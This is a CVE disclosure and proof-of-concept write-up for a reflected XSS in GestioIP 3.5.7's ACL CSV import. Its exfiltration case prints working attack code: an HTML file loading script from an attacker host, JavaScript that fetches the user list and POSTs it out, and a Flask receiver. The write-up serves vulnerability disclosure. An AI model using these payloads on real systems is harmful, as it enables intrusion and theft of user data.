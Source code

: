 ```yaml
---
title: "CVE-2024-50859. GestioIP Vulnerability: Reflected XSS"
description: Auth. Reflected Cross-Site Scripting
date: 2025-01-13T12:28:27-03:00
author: Maximiliano Belino
author website: https://belino.com
lang: en
tags:
  - vulnerability
  - CVE
  - Refelected
  - XSS
---
```

# CVE-2024-50859

- [Information](#information)
	- [Description](#description)
- [Proof-of-Concept Exploit](#proof-of-concept-exploit)
	- [Description](#description)
	- [Steps to Reproduce](#steps-to-reproduce)
	- [Case: Basic test "hello world!"](#case-basic-test-hello-world)
		- [Usage/Exploitation](#usageexploitation)
	- [Case: Data exfiltration](#case-data-exfiltration)
		- [Usage/Exploitation](#usageexploitation)
		- [Files](#files)

## Information

### Description

The `ip_import_acl_csv` request is vulnerable to Reflected XSS (Reflected Cross-Site Scripting); the user can upload a file and the file content is reflected in the HTML response without being sanitized. If the file uploaded by the user has an incorrect format and an error occurs during its processing, part of the file's content may be displayed in the browser. If this content includes HTML or scripts and it is not properly escaped, the browser could interpret it, leading to a security vulnerability. This could allow data exfiltration and enabling CSRF (Cross-Site Request Forgery) attacks.<br>
Proper input validation and output encoding are critical to prevent this vulnerability.


**Versions Affected:** 3.5.7 <br> 

## Proof-of-Concept Exploit
### Description

The `ip_import_acl_csv` feature of GestioIP 3.5.7 is vulnerable to Reflected XSS, leading to data exfiltration and CSRF attacks.


### Steps to Reproduce


**Step 1.** Set this in the Global Configuration

	Manage > Manage GestioIP > ACL connection management

![](files/CVE-2024-50859.png)

Then you can see the menu option:

			import/export > "import ACLs/ACL Connections"

![](files/CVE-2024-50859-1.png)

**Step 2.** Upload a "malicious" file

Select: import/export > Import ACLs/ACL Connections

Select: "Connection List"

Select "report only"

Browse to select the file you want to upload.

Click 'upload'

![](files/CVE-2024-50859-2.png)


### Case: Basic test "hello world!"

This is just a simple example to showcase that HTML content is reflected in the browser output.

#### Usage/Exploitation

To exploit this vulnerability the attacker uploads a basic HTML file `hello.html` that includes H1 HTML tags:


`hello.html`

```html
<h1>Hello World!</h1>
```

Upload the HTML file:

![](files/CVE-2024-50859-7.png)


After clicking upload the webpage shows:

![](files/CVE-2024-50859-8.png)


{{< admonition type=danger title="Danger" >}}
The application displays the uploaded content in the browser, rendering it as a formatted `<h1>` tag instead of escaping characters to treat it as plain text. Without proper escaping, this behavior can be exploited by an attacker to inject malicious scripts, leading to a reflected XSS vulnerability.
{{< /admonition >}}



### Case: Data exfiltration

For example, an attacker could leverage this vulnerability to **retrieve the list of users** from the GestioIP application. If an administrator uploads a "malicious" HTML file while authenticated to the application, the HTML will be interpreted by the browser, and the XSS payload will be triggered.

This causes the administrator's browser to perform a GET request to a file hosted on the attacker's server, retrieving the user list from the GestioIP application. Subsequently, the browser will send a POST request to the attacker's server, exfiltrating the obtained user information.

#### Usage/Exploitation

To exploit this vulnerability:

• The admin user uploads a malicious file, such as `refxss_3.html`, which will request a '**.js**' file from the attacker's server.

![](files/CVE-2024-50859-3.png)

• The attacker must host the `refxss_exfiltrate_3.js` file on a server they control (e.g., using `python3 -m http.server 8090`), along with a Python Flask server to receive the exfiltrated data.

Once the authenticated administrator uploads the malicious HTML file, the XSS is triggered, prompting the admin's browser to collect the data and send it to the attacker's server.


After clicking upload:

1. The webpage shows:

![](files/CVE-2024-50859-4.png)


2. The server processed the html file and the attacker server receives the GET request for the 'js' file:

![](files/CVE-2024-50859-5.png)


3. The data is gathered as stated in the JS file, and afterwards, the attacker's Flask server receives the POST request.

![](files/CVE-2024-50859-6.png)

4. Data exfiltrated is saved to a file in the attacker's server.


#### Files


1. `refxss_3.html`

```html
<html><script src="http://10.20.0.1:8090/refxss_exfiltrate_3.js"></script></html>
```



2. `refxss_exfiltrate_3.js`

```javascript
var req1 = new XMLHttpRequest();
req1.open('GET',"http://localhost/gestioip/res/ip_show_user.cgi", false);
req1.send();

response = req1.responseText;

var req2 = new XMLHttpRequest();
req2.open('POST', "http://10.20.0.1:8000/steal_data", false);
req2.setRequestHeader('Content-Type', 'text/html');
req2.send(response);
```



3. `server_flask_html.py` 

Python flask server

```python 
from flask import Flask, request
from flask_cors import CORS
import json

app = Flask(__name__)
CORS(app)

@app.route('/steal_data', methods=['POST'])
def steal_data():
    data = request.data.decode('utf-8')
    with open('data_exfiltrated.html', 'a') as f:  
        f.write(data + '\n')
    return 'Data received and saved', 200

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)

```
